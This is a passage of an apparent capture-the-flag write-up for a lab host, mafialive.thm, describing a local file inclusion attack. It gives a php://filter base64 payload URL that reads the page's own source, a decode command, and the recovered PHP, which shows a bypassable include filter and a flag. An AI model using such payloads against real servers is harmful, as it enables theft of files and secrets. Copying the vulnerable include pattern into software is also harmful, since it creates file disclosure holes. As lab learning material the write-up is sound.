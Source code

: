 here i found a `robots.txt` file that contained this page.

![image](/images/Pasted image 20221023103822.png)

### Local file inclusion

![image](/images/Pasted image 20221023103852.png)

it took a while to get around this. in the end i wanted to see how the lfi protection works. i converted the local `test.php` to base64 that i could include itself to the site. 

```url
http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php
```

![image](/images/Pasted image 20221023103941.png)

then i needed to decode it and could craft a working payload.

```shell
$ echo -n "CQo8IUUEUgSFRN......D4KPsPgoKCg==" | base64 -d
```

```php
<!DOCTYPE HTML>
<html>

<head>
    <title>INCLUDE</title>
    <h1>Test Page. Not to be Deployed</h1>

    </button></a> <a href="/test.php?view=/var/www/html/development_testing/mrrobot.php"><button id="secret">Here is a button</button></a><br>
        <?php

            //FLAG: thm{explo1t1ng_lf1}

            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
            if(isset($_GET["view"])){
            if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
                include $_GET['view'];
            }else{

                echo 'Sorry, Thats not allowed';
            }
        }
        ?>
    </div>
</body>
</html>
```

